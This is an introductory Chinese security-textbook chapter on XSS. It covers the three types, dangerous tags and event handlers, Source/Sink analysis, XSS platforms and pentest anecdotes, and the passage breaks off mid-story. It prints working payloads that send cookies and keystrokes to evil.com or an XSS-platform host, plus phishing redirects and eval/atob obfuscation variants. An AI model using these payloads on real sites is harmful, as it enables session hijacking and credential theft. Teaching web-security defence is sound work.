




# 第18章 XSS基础：原理与分类

> **难度等级：🟢 简单级 → 🟡 中等级**
>
> **预计学习时间：150分钟**
>
> **本章看点：什么是XSS、XSS原理、XSS三种类型（反射型、存储型、DOM型）、XSS能做什么、常见的XSS Payload、HTML和JavaScript基础、XSS平台介绍**
>
> ::: tip 说明
> XSS，
> 跨站脚本攻击，
> Web漏洞界的"万年老二"。
>
> 为什么叫"老二"？
> 因为SQL注入是老大，
> XSS常年排第二。
>
> 虽然排第二，
> 但是XSS的出现频率可能比SQL注入还高，
> 特别是在现在的Web应用中。
>
> 这一章，
> 我们就从最基础的开始，
> 什么是XSS、
> XSS的原理、
> XSS的三种类型、
> XSS能做什么、
> 常见的XSS Payload...
>
> 一步一步带你入门。
> :::

---

## 📖 本章概述

::: tip 写在前面
很多人觉得XSS就是弹个框，
没什么大不了的。

其实不是。
XSS的危害比你想象的大得多。
- 偷Cookie、劫持会话
- 钓鱼、挂马
- 键盘记录
- 内网探测
- 甚至能拿服务器权限

弹框只是证明有漏洞，
真正的利用可以做很多事情。

这一章，
我们先把基础打牢。
先搞懂什么是XSS，
有哪几种类型，
基本的原理是什么。

后面两章我们再讲绕过和高级利用。

准备好了吗？
让我们开始！
:::

---

## 🎯 学习目标

读完本章，你将能够：

- [x] 知道什么是XSS，原理是什么
- [x] 掌握XSS的三种类型（反射型、存储型、DOM型）
- [x] 理解XSS的危害
- [x] 会写基本的XSS Payload
- [x] 掌握HTML和JavaScript基础
- [x] 知道XSS能做什么
- [x] 了解XSS平台的作用
- [x] 能在DVWA上练习XSS

---

## 🔍 什么是XSS？

### 1.1 XSS的概念

**XSS，全称Cross-Site Scripting，跨站脚本攻击。**

（为什么叫XSS不叫CSS？因为CSS已经是层叠样式表的缩写了，怕搞混，所以叫XSS。）

简单说，
**XSS就是攻击者在网页中注入恶意的脚本代码，
当用户访问这个网页的时候，
这些恶意脚本就会在用户的浏览器里执行。**

和SQL注入有点像：
- SQL注入：注入的是SQL语句，在数据库里执行
- XSS：注入的是脚本代码（一般是JavaScript），在用户浏览器里执行

一个对服务器，
一个对客户端（用户浏览器）。

### 1.2 XSS产生的原因

**根本原因：用户输入的数据，没有经过正确的过滤和转义，就直接输出到了HTML页面上。**

举个最简单的例子：

网站有个搜索功能，
用户输入关键词，
页面上显示"您搜索的关键词是：xxx"。

如果用户输入的不是普通关键词，
而是一段JavaScript代码呢？

比如用户输入：
```html
<script>alert('XSS')</script>
```

如果网站直接把这个输入输出到页面上，
那浏览器就会把它当成脚本执行，
弹出一个框。

这就是最基础的XSS。

> 💡 **深入理解：浏览器是怎么"被骗"的？**
>
> 这个问题非常关键。
> SQL注入骗的是数据库的解析器。
> 那XSS骗的是什么？
>
> **骗的是浏览器的HTML解析引擎。**
>
> 浏览器在显示一个网页时，
> 不是直接"看到"你眼睛看到的页面。
> 它的工作流程是：
>
> ```
> 步骤1：下载HTML源码（纯文本）
> 步骤2：HTML解析器分析源码，区分"标签"和"内容"
> 步骤3：构建DOM树（Document Object Model）
> 步骤4：CSS渲染样式
> 步骤5：JavaScript引擎执行脚本
> 步骤6：画出你看到的页面
> ```
>
> 问题出在步骤2。
> HTML解析器看到一个 `<script>` 标签，
> 它就会说："这是JavaScript代码，需要执行！"
>
> 它不会问："这段代码是程序员写的还是用户输入的？"
> 它只看标签。
>
> 所以当你输入了 `<script>alert('XSS')</script>` 作为搜索关键词：
> - 后端PHP直接 `echo $_GET['keyword']`，把这个字符串输出到HTML
> - 浏览器收到了这段HTML：
>   ```html
>   <p>您搜索的关键词是：<script>alert('XSS')</script></p>
>   ```
> - HTML解析器看到 `</p>`，认为段落结束了
> - 然后看到 `<script>`，认为接下来的 `alert('XSS')` 是JS代码
> - 于是JavaScript引擎执行了它
>
> **整个过程，浏览器完全按照HTML标准来，
> 它没有做错任何事。**
>
> 错的是开发者——没有把用户输入中的特殊字符转义掉。
> 如果开发者用了 `htmlspecialchars()`，
> `<script>` 就会被转义成 `&lt;script&gt;`，
> 浏览器看到 `&lt;script&gt;` 就会把它显示为纯文本"<script>"，
> 而不会当作标签来解析。
>
> 所以，**XSS本质 = HTML注入**。
> 攻击者把"数据"伪装成"HTML标签"，浏览器信了。

### 1.3 XSS和SQL注入的区别

很多新手容易搞混，
我给你对比一下：

| 对比项 | SQL注入 | XSS |
|--------|---------|-----|
| 注入的内容 | SQL语句 | JavaScript脚本 |
| 执行位置 | 服务器数据库 | 用户浏览器 |
| 攻击对象 | 服务器和数据库 | 用户和浏览器 |
| 危害 | 拖库、篡改数据 | 偷Cookie、钓鱼、挂马 |
| 原理 | 代码与数据未分离 | 输入未转义直接输出 |

一个是对服务器的攻击，
一个是对用户的攻击。

**图18-1 XSS与SQL注入对比图**



### 1.4 XSS的危害

XSS的危害非常大，
可以做的事情很多：

**1. 窃取Cookie，劫持会话**
这是最常见的利用方式。
通过偷到用户的Cookie，
攻击者可以冒充用户登录，
做任何用户能做的事情。

**2. 钓鱼攻击**
在页面上插入一个假的登录框，
诱导用户输入账号密码，
然后把账号密码发给攻击者。

**3. 网页挂马**
让用户访问有病毒的网页，
或者下载木马程序。

**4. 键盘记录**
记录用户在网页上的键盘输入，
偷取密码、银行卡号等敏感信息。

**5. 内网探测**
用户的浏览器在内网里，
可以通过XSS探测内网的IP和端口，
甚至攻击内网的其他机器。

**6. 篡改网页内容**
把网页内容改掉，
比如挂个黑页、
发个公告什么的。

**7. 刷广告、刷流量**
用用户的浏览器偷偷刷广告、
刷网站流量。

**8. 获取浏览器权限**
利用浏览器漏洞，
甚至可以拿到用户电脑的权限。

所以别小看XSS，
危害真的很大。

**图18-2 XSS危害全景图**



---

## 📂 XSS的三种类型

XSS一般分为三种类型：
1. **反射型XSS**（Reflected XSS）
2. **存储型XSS**（Stored XSS）
3. **DOM型XSS**（DOM-based XSS）

我们一个一个来讲。

### 2.1 反射型XSS

#### 什么是反射型XSS？

**反射型XSS，就是恶意脚本不在网站上存着，
而是藏在URL里，
用户点击这个URL的时候，
服务器把URL里的恶意脚本"反射"回页面上，
然后执行。**

为什么叫"反射型"？
因为恶意代码是从URL里来的，
经过服务器"反射"一下，
在页面上执行。
就像光射到镜子上反射出来一样。

#### 特点

- 恶意脚本在URL里
- 需要诱骗用户点击恶意链接
- 一次性的，不存到数据库
- 受害者点击链接才会中招

#### 典型场景

- 搜索框
- 错误页面
- 表单提交失败回显
- 任何把用户输入直接输出到页面的地方

#### 简单例子

比如有个搜索页面：
```
http://example.com/search.php?keyword=手机
```

页面上会显示：
```
您搜索的关键词是：手机
```

如果keyword参数直接输出到页面上，
没有过滤，
那我们构造这样的URL：
```
http://example.com/search.php?keyword=<script>alert('XSS')</script>
```

用户点击这个链接，
页面就会执行这段脚本，
弹出XSS的框。

这就是反射型XSS。

#### 为什么危险？

你可能会说，
"用户自己输入的，
自己点的，
有什么危险的？"

问题是，
攻击者可以把这个链接发给用户，
诱骗用户点击。

比如：
- "快看，这里有你想要的东西！http://example.com/search.php?keyword=..."
- "您的账号异常，请点击查看..."
- 发个邮件、发个QQ消息、发个短信...

只要用户点了，
就中招了。

### 2.2 存储型XSS

#### 什么是存储型XSS？

**存储型XSS，就是恶意脚本被存到了服务器的数据库里，
每次用户访问这个页面的时候，
都会从数据库里读出来，
然后执行。**

为什么叫"存储型"？
因为恶意代码被存储起来了，
存在数据库里。

#### 特点

- 恶意脚本存储在数据库里
- 持久化，只要访问页面就会中招
- 不需要诱骗用户点链接
- 危害更大，影响范围更广

#### 典型场景

- 留言板、评论区
- 论坛发帖
- 个人资料、昵称、签名
- 文章内容
- 任何用户输入会被存到数据库，然后显示出来的地方

#### 简单例子

比如一个留言板，
用户可以留言。

攻击者留了一条言，
内容是：
```html
<script>alert('XSS')</script>
```

如果留言内容没有过滤，
直接存到数据库里，
然后每次有人访问这个留言板，
都会看到这条留言，
同时执行这段脚本。

这就是存储型XSS。

#### 为什么更危险？

存储型XSS比反射型更危险，
因为：
1. **持久化**：存在数据库里，只要页面还在就一直有
2. **无需诱骗**：用户正常访问就中招，不用点恶意链接
3. **影响范围广**：所有访问这个页面的用户都会中招
4. **隐蔽性强**：用户正常访问，根本不知道自己中招了

比如一个热门论坛的帖子有存储型XSS，
那几万几十万的用户访问，
就有几十万人中招。

所以存储型XSS的危害比反射型大得多。

### 2.3 DOM型XSS

#### 什么是DOM？

先说说什么是DOM。

**DOM，全称Document Object Model，文档对象模型。**

简单说，
DOM就是浏览器把HTML文档解析成的一个树形结构，
JavaScript可以通过DOM来操作网页的内容、结构、样式。

比如：
- 修改网页的文字
- 修改图片
- 添加删除元素
- ...

这些都是通过DOM操作的。

#### 什么是DOM型XSS？

**DOM型XSS，就是恶意脚本不需要经过服务器处理，
直接在浏览器里，通过DOM操作，
把恶意代码执行了。**

和前两种不一样：
- 反射型和存储型：服务器把恶意代码输出到页面上
- DOM型：服务器没输出，是前端JavaScript自己搞出来的

#### 特点

- 完全发生在前端，不经过服务器
- 服务器端可能完全没有漏洞
- 纯前端JavaScript的问题
- 比较隐蔽，不容易发现

#### 简单例子

比如一个页面，
URL里有个`name`参数，
前端JavaScript会把这个参数的值显示到页面上。

代码大概是这样的：

```html
<script>
    var name = location.hash.split('=')[1];  // 从URL的#后面取name
    document.getElementById('username').innerHTML = name;  // 直接写到页面上
</script>

<div id="username"></div>
```

如果URL是这样的：
```
http://example.com/index.html#name=
```

JavaScript把`name`的值取出来，
直接用`innerHTML`写到页面上，
浏览器就会执行这段脚本。

整个过程，
服务器根本没参与，
全是前端JavaScript的锅。

这就是DOM型XSS。

#### 为什么会有DOM型XSS？

因为前端开发的安全意识不够，
直接把用户可控的数据（比如URL参数、localStorage、Cookie等）
用不安全的方式（innerHTML、document.write、eval等）
插入到页面里。

随着前后端分离越来越流行，
DOM型XSS也越来越多了。

> 💡 **深入理解：DOM型XSS的Source/Sink模型**
>
> DOM型XSS有一个非常经典的分类模型——**Source/Sink模型**。
> 理解了这个模型，你就知道怎么系统地找DOM型XSS漏洞了。
>
> **Source（源）** = 攻击者可以控制的数据来源：
> - `location.href` — 当前页面的完整URL
> - `location.hash` — URL中 `#` 后面的部分
> - `location.search` — URL中 `?` 后面的部分
> - `document.URL` — 当前页面的URL
> - `document.referrer` — 来源页面的URL
> - `window.name` — 窗口名称
> - `localStorage.getItem(...)` — 本地存储的数据
> - `postMessage` 事件中的数据
>
> **Sink（汇）** = 把数据"写入"页面的危险操作：
> - `innerHTML` — 把字符串当HTML插入
> - `document.write()` — 把字符串写进页面
> - `eval()` — 把字符串当JS执行
> - `setTimeout()/setInterval()` — 把字符串当JS执行
> - `new Function()` — 把字符串当函数执行
> - `location.href = ...` — 跳转
> - `document.cookie = ...` — 设置Cookie
>
> 漏洞的判断逻辑很简单：
> ```
> Source（用户可控的数据）→ 没有过滤 → Sink（危险函数）
>            = DOM型XSS！
> ```
>
> 举个源码级例子：
> ```javascript
> // 这段代码有DOM型XSS
> var name = location.hash.split('#name=')[1];  // Source!
> document.getElementById('wel').innerHTML = name;  // Sink!
>
> // 攻击：http://example.com/page.html#name=
> ```
>
> 分析思路就是：
> 1. 找到一个Source（location.hash）— 用户可以通过URL控制
> 2. 跟踪数据流向 — name变量的值从Source来
> 3. 到达一个Sink（innerHTML）— 数据被不安全地写入页面
> 4. 中间没有任何过滤 → 确认是DOM型XSS
>
> **而反射型/存储型XSS的"Source"在服务器端，
> DOM型XSS的"Source"完全在浏览器端。**
> 这就是三种XSS最本质的区分。

### 2.4 三种类型对比

| 类型 | 存储位置 | 触发方式 | 危害程度 | 发现难度 |
|------|----------|----------|----------|----------|
| 反射型 | URL里 | 点击恶意链接 | 中等 | 简单 |
| 存储型 | 数据库 | 访问页面 | 高 | 简单 |
| DOM型 | 前端/URL | 前端JS操作 | 中等 | 较难 |

**危害排序：** 存储型 > 反射型 ≈ DOM型

**常见程度：** 都很常见

**图18-3 三种XSS类型对比示意图**

```mermaid
flowchart TD
    subgraph 反射型[反射型XSS]
        R1[攻击者构造恶意URL] -->|诱骗用户点击| R2[受害者点击链接]
        R2 --> R3[服务器反射URL参数]
        R3 --> R4[页面执行恶意脚本]
        R4 --> R5[一次性 触发即完]
    end

    subgraph 存储型[存储型XSS]
        S1[攻击者提交恶意内容] --> S2[(存入数据库)]
        S2 --> S3[受害者正常访问页面]
        S3 --> S4[从数据库读取并输出]
        S4 --> S5[执行恶意脚本]
        S5 --> S6[持久化 影响所有访问者]
    end

    subgraph DOM型[DOM型XSS]
        D1[攻击者构造恶意URL] --> D2[受害者访问]
        D2 --> D3[前端JS读取URL参数]
        D3 --> D4[innerHTML等危险操作]
        D4 --> D5[浏览器执行脚本]
        D5 --> D6[服务器无参与]
    end
```



---

## 💻 HTML和JavaScript基础

要学XSS，
得先懂点HTML和JavaScript。
不用太精通，
基础的就行。

我给你快速过一遍。

### 3.1 HTML基础

#### HTML标签

HTML是由标签组成的，
标签一般是成对的：

```html
<标签名>内容</标签名>
```

比如：
```html
<p>这是一个段落</p>
<div>这是一个div</div>
<script>这里是脚本</script>

<a href="链接地址">链接文字</a>
<iframe src="页面地址"></iframe>
```

#### 标签属性

标签可以有属性：

```html
<标签名 属性名="属性值">内容</标签名>
```

比如：
```html

<a href="http://example.com" target="_blank">点击跳转</a>
<script src="test.js"></script>
```

#### 常见的危险标签和属性

XSS常用的一些标签和属性：

**标签：**
- `<script>`：脚本标签，最直接
- ``：图片标签，可以用onerror事件
- `<iframe>`：内嵌框架
- `<svg>`：SVG矢量图
- `<input>`：输入框
- `<body>`：body标签
- `<link>`：样式表
- ...

**事件属性（onXXX）：**
- `onerror`：加载失败时触发
- `onload`：加载完成时触发
- `onclick`：点击时触发
- `onmouseover`：鼠标移上去时触发
- `onfocus`：获得焦点时触发
- `onblur`：失去焦点时触发
- `onsubmit`：表单提交时触发
- ...

### 3.2 JavaScript基础

#### 什么是JavaScript？

JavaScript是一门脚本语言，
可以在浏览器里运行，
用来给网页增加交互功能。

XSS注入的就是JavaScript代码。

#### 基本语法

**弹窗：**
```javascript
alert('XSS');  // 普通弹窗
confirm('确定吗？');  // 确认弹窗
prompt('请输入：');  // 输入弹窗
```

**获取Cookie：**
```javascript
document.cookie;  // 获取当前页面的Cookie
```

**跳转页面：**
```javascript
location.href = 'http://evil.com';  // 跳转到其他页面
window.location = 'http://evil.com';
```

**操作DOM：**
```javascript
document.getElementById('id');  // 通过ID获取元素
document.innerHTML = '<p>内容</p>';  // 设置HTML内容
document.write('<p>内容</p>');  // 写入页面
```

**发送请求：**
```javascript
// Image对象请求（偷Cookie常用）
new Image().src = 'http://evil.com/steal?cookie=' + document.cookie;

// AJAX请求
var xhr = new XMLHttpRequest();
xhr.open('GET', 'http://evil.com/steal?cookie=' + document.cookie);
xhr.send();
```

**获取页面内容：**
```javascript
document.body.innerHTML;  // 获取页面的HTML内容
document.title;  // 获取页面标题
```

#### 不用<script>也能执行JS

很多人以为XSS必须用`<script>`标签，
其实不是。
很多方法都能执行JavaScript。

**事件属性：**
```html

<body onload=alert('XSS')>
<input onfocus=alert('XSS') autofocus>
<svg onload=alert('XSS')>
```

**伪协议：**
```html
<a href="javascript:alert('XSS')">点我</a>
<iframe src="javascript:alert('XSS')"></iframe>
```

**CSS表达式（IE）：**
```html
<div style="expression(alert('XSS'))"></div>
```

方法多着呢，
后面绕过篇我们会详细讲。

---

## 💥 常见的XSS Payload

### 4.1 最基础的Payload

**脚本标签：**
```html
<script>alert('XSS')</script>
<script>alert(document.cookie)</script>
```

最简单最直接，
但是也最容易被过滤。

### 4.2 事件类Payload

不用script标签，
用事件触发：

```html
<!-- img标签 + onerror -->


<!-- svg标签 + onload -->
<svg onload=alert('XSS')>

<!-- body标签 + onload -->
<body onload=alert('XSS')>

<!-- input标签 + onfocus -->
<input onfocus=alert('XSS') autofocus>

<!-- 鼠标事件 -->
<div onmouseover=alert('XSS')>鼠标移过来</div>
<div onclick=alert('XSS')>点我</div>
```

事件类的Payload很多，
而且经常能绕过一些简单的过滤。

### 4.3 伪协议类Payload

用JavaScript伪协议：

```html
<!-- a标签 -->
<a href="javascript:alert('XSS')">点我</a>

<!-- iframe -->
<iframe src="javascript:alert('XSS')"></iframe>

<!-- form action -->
<form action="javascript:alert('XSS')"><button>提交</button></form>
```

需要用户交互（点击）才能触发。

### 4.4 偷Cookie的Payload

XSS最常用的就是偷Cookie：

```html
<script>
new Image().src = 'http://evil.com/steal?cookie=' + document.cookie;
</script>
```

解释一下：
1. 创建一个Image对象
2. 把src指向攻击者的服务器
3. 把Cookie作为参数传过去
4. 浏览器会自动加载这个图片，
   这样攻击者的服务器就收到Cookie了

为什么用Image对象？
因为加载图片不需要跨域权限，
而且不会留下明显的痕迹。

### 4.5 页面跳转/钓鱼Payload

```html
<!-- 直接跳转 -->
<script>location.href='http://evil.com/phish.html'</script>

<!-- 嵌入钓鱼页面 -->
<iframe src="http://evil.com/phish.html" width="100%" height="1000"></iframe>
```

### 4.6 键盘记录Payload

```html
<script>
document.onkeypress = function(e) {
    var key = String.fromCharCode(e.which);
    new Image().src = 'http://evil.com/keylog?key=' + key;
}
</script>
```

用户按什么键，
都会发送给攻击者。

### 4.7 Payload的变形

同一个效果，
可以有很多种写法：

```html
<!-- 大小写混合 -->
<SCript>alert('XSS')</scRipt>


<!-- 不带引号 -->

  <!-- 反引号 -->

<!-- 编码 -->
  <!-- HTML实体编码 -->

<!-- 拆分拼接 -->
<script>eval('al'+'ert'+'(1)')</script>

<!-- 用atob解码base64 -->
<script>eval(atob('YWxlcnQoMSk='))</script>
```

写法非常多，
这也是XSS绕过的基础。
下一章我们会详细讲。

**图18-4 XSS Payload执行方式分类图**

```mermaid
flowchart TD
    Root[XSS Payload 执行方式]

    Root --> Script[script标签类]
    Root --> Event[事件属性类]
    Root --> Pseudo[伪协议类]
    Root --> Encode[编码变形类]

    Script --> S1["<script>alert(1)</script>"]
    Script --> S2["<script src=evil.js></script>"]

    Event --> E1["<img src=x onerror=...>"]
    Event --> E2["<svg onload=...>"]
    Event --> E3["<body onload=...>"]
    Event --> E4["<input onfocus=... autofocus>"]
    Event --> E5["<div onmouseover=...>"]

    Pseudo --> P1["<a href=javascript:...>"]
    Pseudo --> P2["<iframe src=javascript:...>"]

    Encode --> EN1[HTML实体编码]
    Encode --> EN2[大小写混合]
    Encode --> EN3[Base64 + eval]
    Encode --> EN4[字符串拼接 eval]
```



---

## 🎯 XSS能做什么？

很多新手觉得XSS就是弹个框，
没啥用。

大错特错！
XSS能做的事情多着呢。

我给你列举一下：

### 5.1 窃取Cookie，劫持会话

这是最经典、最常用的。

用户登录了网站A，
网站A有XSS漏洞。
攻击者通过XSS偷到用户的Cookie，
然后用这个Cookie登录网站A，
就可以冒充用户做任何事情。

比如：
- 发帖子、发评论
- 修改个人信息、密码
- 转账、消费
- 看用户的私信、订单
- ...

只要是用户能做的，
攻击者都能做。

这就是为什么叫"跨站脚本攻击"——
虽然脚本是在A站执行的，
但是数据可以被发送到攻击者的网站（跨站）。

**图18-5 XSS窃取Cookie劫持会话流程图**



### 5.2 钓鱼攻击

在有XSS的页面上，
插入一个假的登录框，
做得和真的一模一样。

用户以为自己登录超时了，
输入账号密码，
结果账号密码就被攻击者拿走了。

或者直接跳转到钓鱼网站，
让用户输入敏感信息。

### 5.3 网页篡改

把网页内容改掉，
比如：
- 挂黑页、加黑链
- 发布虚假信息
- 篡改新闻、公告
- ...

看起来就像网站被黑了一样。

### 5.4 刷广告、刷流量

用用户的浏览器偷偷刷广告，
攻击者赚广告费。

或者给网站刷流量、
刷投票、
刷赞...

### 5.5 内网探测

用户可能在内网里，
攻击者可以通过XSS，
让用户的浏览器去探测内网：
- 扫内网的IP和端口
- 找内网的漏洞
- 攻击内网的其他机器

相当于把用户的浏览器当成了一个"跳板"。

### 5.6 键盘记录

记录用户在这个页面上的所有键盘输入，
比如：
- 登录密码
- 银行卡号
- 身份证号
- 聊天内容
- ...

### 5.7 浏览器攻击

如果浏览器本身有漏洞，
XSS还可以用来：
- 下载木马
- 执行恶意代码
- 控制用户电脑

虽然比较少见，
但是理论上是可行的。

---

## 🛠️ XSS平台介绍

### 6.1 什么是XSS平台？

**XSS平台，就是专门用来接收和管理XSS利用结果的网站。**

你不用自己写服务器收Cookie，
不用自己写利用代码，
XSS平台都给你做好了。

你只要生成一个Payload，
插到有漏洞的页面里，
有人中招了，
XSS平台上就能看到结果。

### 6.2 XSS平台的功能

一般XSS平台都有这些功能：

- **Cookie窃取**：自动收集Cookie
- **键盘记录**：记录用户的键盘输入
- **页面截图**：把当前页面截个图发回来
- **浏览器信息**：获取浏览器版本、操作系统等
- **内网探测**：扫描内网IP和端口
- **钓鱼模块**：生成钓鱼页面
- **持久化**：让XSS一直存在
- **...**

功能非常强大，
相当于给了你一个远程控制的WebShell。

### 6.3 常见的XSS平台

**公开的XSS平台：**
- XSS Platform（老牌XSS平台）
- BlueLotus XSS Platform（国产，蓝莲花战队的）
- ...

不过公开的平台不太稳定，
而且可能有风险。

**自己搭建：**
- 可以自己在服务器上搭一个
- 开源的XSS平台很多，部署也简单
- 自己搭的安全可靠

### 6.4 XSS平台怎么用？

使用流程大致是这样的：

1. 注册/登录XSS平台
2. 创建一个项目（或者叫模块）
3. 平台会给你生成一个Payload
4. 把这个Payload插到有XSS漏洞的页面里
5. 有人访问中招了，
   平台上就能看到记录
6. 可以在平台上查看Cookie、
   键盘记录、截图等信息

非常方便，
不用自己写代码。

**图18-6 XSS平台工作流程图**



> ⚠️ 注意：
> 不要用XSS平台做违法的事情！
> 只能在授权的情况下测试使用。
> 学习的话，
> 自己搭个靶场自己测。

---

## 📚 案例讲解

### 案例1：最简单的反射型XSS（搜索框）

小明刚学XSS，
在DVWA上练手。

他打开DVWA，
选了XSS (Reflected)模块，
难度Low。

页面上有个输入框，
让输入你的名字。

他输入：
```
<script>alert('XSS')</script>
```

点Submit，
"叮"的一声，
弹窗出来了！

第一次XSS成功！
小明激动得不行。

他又试了试偷Cookie：
```
<script>alert(document.cookie)</script>
```

弹窗里果然显示了Cookie。

"原来XSS这么简单啊！"
小明心想。

但是他不知道，
这只是最简单的情况。
真实环境中，
大部分都有过滤，
哪有这么容易。

> 老K说：
> **"入门很简单，
> 但是深入很难。
> 别觉得弹个框就学会了，
> 那只是第一步。
>
> 真正的XSS，
> 是能绕过各种过滤，
> 并且能最大化利用漏洞的危害。"**

### 案例2：存储型XSS拿下整个论坛

老周做渗透测试，
目标是一个论坛。

他先注册了一个账号，
然后在个人资料里改昵称。

他把昵称改成了：
```html
<script>alert('XSS')</script>
```

保存之后，
刷新页面，
弹窗了！

有存储型XSS！

而且这个昵称会在很多地方显示：
- 个人资料页
- 发的帖子里
- 回复里
- 在线用户列表里
- ...

这意味着，
只要有人看到他的昵称，
就会中招。

老周赶紧测试了一下危害，
把Payload改成了偷Cookie的：
```html
<script>
new Image().src = 'http://xsspt.com/xxx?c=' + document.cookie;
</script>
```

然后他发了一个热门帖子，
标题很吸引人，
内容里也插了XSS。

很快，
就有人访问帖子了，
XSS平台上收到了一个又一个Cookie。

其中居然还有管理员的！

老周用管理员的Cookie登录后台，
拿到了论坛的管理员权限。

一个存储型XSS，
直接拿下了整个论坛。

> 经验之谈：
> **存储型XSS的危害真的很大。
> 特别是在论坛、社区这种用户多的地方，
> 一个XSS就能影响成千上万的用户。
>
> 如果能打到管理员，
> 直接就拿站了。
>
> 所以做渗透测试的时候，
> 存储型XSS是高危漏洞，
> 一定要重视。**

### 案例3：一个隐蔽的DOM型XSS

小林做代码审计，
发现了一个DOM型XSS。

网站的URL是这样的：
```
http://example.com/#/user/123
```

这是个单页应用（SPA），
用的是Hash路由。

前端代码里有这么一段：

```javascript
var hash = location.hash.slice(1);  // 取#后面的内容
var parts = hash.split('/');
var page = parts[0];
var id = parts[1];

// ... 一些逻辑 ...

if (page == 'user') {
    $('#user-id').text(id);  // 这里用的是text()，没问题
    $('#info').html('用户ID：' + id);  // 这里用了html()，危险！
}
```

`html()`和`text()`不一样，
`html()`会解析HTML标签的。

那如果构造这样的URL：
```
http://example.com/#/user/
```

前端JavaScript把id取出来，
用`html()`写到页面上，
就触发XSS了。

而且这个XSS，
服务器端完全没参与，
全是前端的锅。
如果只测服务器端，
根本发现不了。

> 给新手的提醒：
> **现在前后端分离越来越流行，
> DOM型XSS也越来越多了。
>
> 测试的时候不要只测服务器端，
> 前端JavaScript也要看。
>
> 特别是那些用了React、Vue等框架的，
> 也不一定安全，
> 如果用了`dangerouslySetInnerHTML`、`v-html`之类的，
> 也会有XSS。**

### 案例4：一封XSS钓鱼邮件

有一次护网行动，
我们队的钓鱼组用了XSS钓鱼。

他们是怎么做的呢？

1. 先找到目标公司的外部邮箱入口（Webmail）
2. 发现这个Webmail有个反射型XSS
3. 构造一个带XSS的链接
4. 给目标公司的员工发邮件，
   邮件内容是"您有一封新邮件，请点击查看"
5. 员工点了链接，
   跳到Webmail的登录页面，
   但是URL里有XSS
6. XSS脚本会在登录页面上注入一个假的"登录超时，请重新登录"的框
7. 员工以为真的超时了，
   输入了账号密码
8. 账号密码就被我们拿走了

很多员工都中招了，
我们拿到了好几个邮箱账号。

然后用这些邮箱发钓鱼邮件，
又钓到了更多的人...

> 老K说：
> **"XSS和钓鱼是绝配。
> 有了XSS，
> 钓鱼的可信度会高很多。
>
> 毕竟是在真网站上弹出来的登录框，
> 一般人根本分不清真假。
>
> 所以护网的时候，
> XSS经常和钓鱼配合使用，
> 效果非常好。"**

### 案例5：通过XSS打到内网

小张做渗透测试，
目标是一个企业的外网网站。

外网网站没什么高危漏洞，
只有一个反射型XSS。

一般人可能觉得，
一个XSS而已，
危害不大。

但是小张不这么想。

他想：
"这个网站是内网员工也会访问的，
如果我能让内网的员工点一下这个XSS链接，
是不是就可以用他们的浏览器探测内网？"

说干就干。

他构造了一个XSS链接，
里面的Payload是内网扫描的脚本，
会扫描内网常见的IP段和端口。

然后他把链接伪装成"重要通知"，
